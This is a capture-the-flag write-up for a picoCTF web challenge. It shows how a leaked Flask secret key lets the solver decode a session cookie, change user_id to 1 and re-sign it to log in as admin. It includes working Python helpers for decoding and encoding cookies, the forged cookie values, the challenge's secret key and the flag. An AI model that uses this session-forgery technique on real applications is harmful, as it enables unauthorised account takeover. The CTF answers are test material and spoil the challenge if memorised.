



# Problem
Nice! You found out they were sending the Secret_key: 73e1f2c96e364f0cc3371c31927ed156. Now, can you find a way to log in as admin? [http://2018shell1.picoctf.com:12261](http://2018shell1.picoctf.com:12261).

## Hints:
What can you do with a flask Secret_Key?

The database still reverts every 2 hours

## Solution:
This site is written in [flask](http://flask.pocoo.org/).

We know that the secret_key is ```73e1f2c96e364f0cc3371c31927ed156```.

We can login as 22/22 (for example), and decode the session cookie using this code (from [https://gist.github.com/aescalana/7e0bc39b95baa334074707f73bc64bfe](https://gist.github.com/aescalana/7e0bc39b95baa334074707f73bc64bfe)):
```python
def decode_flask_cookie(secret_key, cookie_str):
    import hashlib
    from itsdangerous import URLSafeTimedSerializer
    from flask.sessions import TaggedJSONSerializer
    salt = 'cookie-session'
    serializer = TaggedJSONSerializer()
    signer_kwargs = {
        'key_derivation': 'hmac',
        'digest_method': hashlib.sha1
    }
    s = URLSafeTimedSerializer(secret_key, salt=salt, serializer=serializer, signer_kwargs=signer_kwargs)
    return s.loads(cookie_str)
```

The cookie I got:
```
.eJwlz0FqAzEMRuG7eJ2FxrIsK5cZfksyDYEWZpJV6d0z0AN88N5v2deR51e5v4533sr-iHIvytC-EYEh0gTuznXM8CUeWbf0uryNMbE4uaVKkpmgj2QX5GKdcGJzCaq6qHJmtgpHVTEykcUyZ1cYNdPE5baAdA_V0cut-Hms_fXzzO-rB8AMkdqgaYQWmm0EqtnI4RfHmFvLuNz7zON_YqPy9wGptEEp.Dq0BoQ.xE00yami7dOhYugT2VW7PZ4FkTo
```

Lets decode:
```python
Python 2.7.14 |Anaconda custom (64-bit)| (default, Feb 12 2018, 06:28:32) 
Type "copyright", "credits" or "license" for more information.

IPython 5.4.1 -- An enhanced Interactive Python.
?         -> Introduction and overview of IPython's features.
%quickref -> Quick reference.
help      -> Python's own help system.
object?   -> Details about 'object', use 'object??' for extra details.

In [1]: #!/usr/bin/env python
   ...: from flask.sessions import SecureCookieSessionInterface
   ...: from itsdangerous import URLSafeTimedSerializer
   ...: 
   ...: class SimpleSecureCookieSessionInterface(SecureCookieSessionInterface):
   ...: ^I# Override method
   ...: ^I# Take secret_key instead of an instance of a Flask app
   ...: ^Idef get_signing_serializer(self, secret_key):
   ...: ^I^Iif not secret_key:
   ...: ^I^I^Ireturn None
   ...: ^I^Isigner_kwargs = dict(
   ...: ^I^I^Ikey_derivation=self.key_derivation,
   ...: ^I^I^Idigest_method=self.digest_method
   ...: ^I^I)
   ...: ^I^Ireturn URLSafeTimedSerializer(secret_key, salt=self.salt,
   ...: ^I^I                              serializer=self.serializer,
   ...: ^I^I                              signer_kwargs=signer_kwargs)
   ...: 
   ...: def decodeFlaskCookie(secret_key, cookieValue):
   ...: ^Isscsi = SimpleSecureCookieSessionInterface()
   ...: ^IsigningSerializer = sscsi.get_signing_serializer(secret_key)
   ...: ^Ireturn signingSerializer.loads(cookieValue)
   ...: 
   ...: # Keep in mind that flask uses unicode strings for the
   ...: # dictionary keys
   ...: def encodeFlaskCookie(secret_key, cookieDict):
   ...: ^Isscsi = SimpleSecureCookieSessionInterface()
   ...: ^IsigningSerializer = sscsi.get_signing_serializer(secret_key)
   ...: ^Ireturn signingSerializer.dumps(cookieDict)
   ...: 

In [2]: decodeFlaskCookie('73e1f2c96e364f0cc3371c31927ed156', '.eJwlz0FqAzEMRuG7eJ2FxrIsK5cZfksyDYEWZpJV6d0z0AN88N5v2deR51e5v4533sr-iHIvytC-EYEh0gTuznXM8CUeWbf0uryNMbE4uaVKkpmgj2QX5GKdcGJzCaq6qHJmtgpHVTEy
   ...: kcUyZ1cYNdPE5baAdA_V0cut-Hms_fXzzO-rB8AMkdqgaYQWmm0EqtnI4RfHmFvLuNz7zON_YqPy9wGptEEp.Dq0BoQ.xE00yami7dOhYugT2VW7PZ4FkTo')
Out[2]: 
{u'_fresh': True,
 u'_id': u'73a76100a3a5545accc328bdcf5cde21ec2fc488baf3e34e75e0995a68e3c5aef37bac039c5d027f023eee42aca27590955f35bb67a90497eae3c1da56cd7786',
 u'csrf_token': u'aaabd5524a7e90a4d7e48da2998e8c7eaa8b14ed',
 u'user_id': u'10'}
```

Now lets change the ```user_id``` to ```1``` (hoping this is admin) and try to encode:
```python
In [3]: c = decodeFlaskCookie('73e1f2c96e364f0cc3371c31927ed156', '.eJwlz0FqAzEMRuG7eJ2FxrIsK5cZfksyDYEWZpJV6d0z0AN88N5v2deR51e5v4533sr-iHIvytC-EYEh0gTuznXM8CUeWbf0uryNMbE4uaVKkpmgj2QX5GKdcGJzCaq6qHJmtgpH
   ...: VTEykcUyZ1cYNdPE5baAdA_V0cut-Hms_fXzzO-rB8AMkdqgaYQWmm0EqtnI4RfHmFvLuNz7zON_YqPy9wGptEEp.Dq0BoQ.xE00yami7dOhYugT2VW7PZ4FkTo')

In [4]: c['user_id']='1'

In [5]: encodeFlaskCookie('73e1f2c96e364f0cc3371c31927ed156', c)
Out[5]: '.eJwdz0FqAzEMRuGrFK-z8FiWZQVyhC56guG3JNNSaGEmWYXcvaYH-OC9Z9rnEednut6PR1zS_uXpmoQgbcsZBObKMDMqfbhNNo-yhZVptfeBSUE1hCOrMloPMkZMkgHLpMaei8xcKCJqgaEIa1bmSTxGE2iuKoHlNgc3c5He0iXZecz9_vsdP6sHwHDmUiGhGdUlancU1R7dFkcfWw1f7nHG8T_xTG9j0feP2y29Xn8B_EPY.Dq0HRQ.WcxYj1TBUjHowI78zBXsQHEIGS4'
```

Lets update the session cookie, and go to the Admin page.





Flag: picoCTF{1_id_to_rule_them_all_8470d1c9}
